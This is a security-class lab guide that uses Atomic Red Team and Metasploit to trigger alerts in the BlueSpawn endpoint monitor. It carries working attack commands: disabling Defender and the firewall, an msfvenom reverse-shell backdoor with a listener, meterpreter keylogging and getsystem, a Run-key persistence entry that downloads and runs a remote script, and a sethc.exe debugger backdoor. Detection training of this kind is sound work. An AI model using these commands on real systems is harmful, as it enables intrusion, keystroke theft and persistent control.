









# Atomic Red Team And Bluespawn

In this lab we will be using Bluespawn as a stand-in for an EDR system.  Normally full EDRs like Cylance and Crowdstrike are very expensive and tend not to show up in classes like this.  However, the folks at University of Virginia have done an outstanding job with BlueSpawn. 

BlueSpawn will monitor the system for "weird" behavior and note it when it occurs. For the money, it is great.

In this lab, we will be starting BlueSpawn and then running Atomic Red Team to trigger a lot of alerts.

First, we need to disable Defender. 
Start by opening up <b>Windows Powershell</b>.


Next, run the following command:

```ps
Set-MpPreference -DisableRealtimeMonitoring $true
```

```ps
Set-MpPreference -DisableBehaviorMonitoring $true
```


This will disable Defender for this session.

>[!NOTE]
>
>If you get angry red errors, that is Ok, it means Defender is not running.


Now, let's open a **command prompt**:


 
Next, let’s change directories to tools and start Bluespawn:

```bash
cd \IntroLabs
```

```bash
BLUESPAWN-client-x64.exe --monitor --aggressiveness cursory
```

You should see something like this:


If you made it this far, perfect! That means Bluespawn is up and running.

Now, let’s use Atomic Red Team to test the monitoring with BlueSpawn:

First, we need to open a PowerShell terminal. 

You can do this by selecting the icon in the taskbar/desktop:


Now we need to install and update Atomic Red Team. Run the following:

```bash
cd \
```

```ps
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);
Install-AtomicRedTeam -getAtomics -Force
```

>[!NOTE]
>
> This can take a bit. After about 120 seconds, try hitting enter to get your prompt back.

Once you see the following, you are set to move forward:



Next, in the PowerShell Window we need to navigate to the Atomic Red Team directory and import the powershell modules:

```ps
cd C:\AtomicRedTeam\invoke-atomicredteam\
```

Then, install the proper `yaml` modules by running the following:

```ps
Install-Module -Name powershell-yaml
```

>[!NOTE]
>
>When prompted, press Y to install the modules.

```ps
Import-Module .\Invoke-AtomicRedTeam.psm1
```


Once we do this, we need to invoke all the Atomic Tests.

>[!IMPORTANT]  
>
>Don't do this in production...  Ever.
>  
>Always run tools like Atomic Red Team on test systems.
>
>We recommend that you run in on a system with your EDR/Endpoint protection in non-blocking/alerting mode. This is so you can see what the protection would have done, but it will allow the tests to finish so we are just going to run individual tests for now.

Run the following individually:

```ps
Invoke-AtomicTest T1547.004
```

More information here:

https://attack.mitre.org/techniques/T1547/004/

```ps
Invoke-AtomicTest T1543.003
```

More information here:

https://attack.mitre.org/techniques/T1543/003/

```ps
Invoke-AtomicTest T1547.001
```

More information here:

https://attack.mitre.org/techniques/T1547/001/

```ps
Invoke-AtomicTest T1546.008
```

More information here:

https://attack.mitre.org/techniques/T1546/008/


>[!TIP]
>
>If you get any “file exists” questions or errors, just select `Yes`.

It should look like this:



>[!NOTE]
>
>There might be some errors when this runs. This is 
normal.

>[!NOTICE]
>
>We had to cross reference the old numbering with the new.
>
>You can find that mapping here:
>
>https://attack.mitre.org/docs/subtechniques/subtechniques-crosswalk.json
>
>


You should be getting a lot of alerts with Bluespawn! Switch tabs in your Terminal to see them:



Now, let’s go back to the PowerShell window and clean up:

```ps
Invoke-AtomicTest All -Cleanup
```

It should look like this:



# If you have more time

Let’s begin by disabling **Defender**. Simply run the following from an **Administrator PowerShell** prompt:


Next, run the following command in the **Powershell** terminal:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>


This will disable **Defender** for this session.

If you get angry red errors, that is **Ok**, it means **Defender** is not running.

Next, lets ensure the firewall is disabled. In a Windows Command Prompt.

<pre> netsh advfirewall set allprofiles state off</pre>


Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Before we move on from our Powershell window, lets get our IP by running the following command:

<pre>ipconfig</pre>


**REMEMBER - YOUR IP WILL BE DIFFERENT**

Write this IP down so we can use it again later.

Let's continue by opening a **Kali** terminal


Alternatively, you can click on the **Kali** icon in the taskbar.


We need to run the following commands in order to mount our remote system to the correct directory:

<pre>sudo su -</pre>

<pre>mount -t cifs //[Your IP Address]/c$ /mnt/windows-share -o username=Administrator,password=password1234</pre>

**REMEMBER - YOUR IP ADDRESS AND PASSWORD WILL BE DIFFERENT.**


Run the following command to navigate into the mounted directory:

<pre>cd /mnt/windows-share</pre>


Before we run the next commands, we need to get the IP of our Kali System (AKA our Linux IP Adress). Lets do so by running the following:

<pre>ifconfig</pre>


**REMEMBER: YOUR IP WILL BE DIFFERENT**

Run the following commands to start a simple backdoor and backdoor listener: 

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[Your Linux IP Address] lport=4444 -f exe -o /mnt/windows-share/TrustMe.exe</pre>


Let's start the **Metasploit** Handler.  Open a new **Kali** terminal by clicking the **Kali** icon in the taskbar.


Let's become root.

<pre>sudo su -</pre>

Now let's start the **Metasploit** Handler

<pre>msfconsole -q</pre>

We are going to run the following commands to correctly set the parameters:

<pre>use exploit/multi/handler</pre>

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST [Your Linux IP Address]</pre>

Remember, **Your IP will be different!**

<pre>exploit</pre>

It should look like this:


We will need to open a **"cmd.exe"** terminal as **Administrator**.


let's run the following commands to run the **"TrustMe.exe"** file.

<pre>cd \</pre>
 
Then run it with the following:

 <pre>TrustMe.exe</pre>

Back at your Kali terminal, you should have a metasploit session!


Now, let’s look at keystroke logging.

To learn more about this check out MITRE:

https://attack.mitre.org/techniques/T1056/

Also, below is a list of just some of the threat groups that use this technique:


Run commands

meterpreter > `keyscan_start`

Go and type something on your Windows system.

meterpreter > `keyscan_dump`




Go and check Bluespawn.  Did it detect it?

Now, let’s play with registry persistence.

To learn more about this check out MITRE:

https://attack.mitre.org/techniques/T1547/

Here are just some of the groups that use this technique:


meterpreter > `shell`

C:\> `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Payload /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://172.20.243.5:80/a'))\"" /f`

C:\>  `reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"`



Go and check Bluespawn.  Did it detect it?

Next, let’s play with privilege escalation.

Here is al link to more info about this from MITRE:

https://attack.mitre.org/techniques/T1543/

Here are just some of the groups that use this technique:


meterpreter >`getsystem`






Go and check Bluespawn.  Did it detect it?

***                                                                 

<b><i>Continuing the course? </br>[Next Lab](/IntroClassFiles/Tools/IntroClass/deepbluecliIntroClass/DeepBlueCLI.md)</i></b>

<b><i>Want to go back? </br>[Previous Lab](/IntroClassFiles/Tools/IntroClass/AppLocker/AppLocker.md)</i></b>

<b><i>Looking for a different lab? </br>[Lab Directory](/IntroClassFiles/navigation.md)</i></b>

***Finished with the Labs?***

Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

---


